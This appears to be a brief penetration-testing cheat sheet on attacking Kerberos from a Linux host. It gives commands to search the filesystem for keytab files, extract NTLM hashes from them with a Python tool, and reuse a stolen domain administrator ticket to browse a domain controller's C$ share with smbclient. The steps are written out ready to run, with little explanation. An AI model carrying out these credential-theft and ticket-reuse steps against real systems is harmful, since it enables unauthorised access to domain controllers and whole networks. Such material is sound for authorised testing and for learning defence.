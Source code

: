 
Other file extensions maybe in use

Locating `keytab` files

```bash
find / -name *keytab* -ls 2>/dev/null
find / -name *kt* -ls 2>/dev/null
```

Extracting NTLM hashes from the keytab

```bash
python3 /opt/keytabextract.py <FILE_NAME>.keytab
```

Kerberos tickets (ccache files) are by default stored in the `/tmp` directory

If lucky enough to find a ticket for a DA, we can do the following:

```bash
export KRB5CCNAME=<ticket_name>
smbclient //dc01/C$ -k --no-pass
smbclient //dc01/C$ -k --no-pass -c ls
```


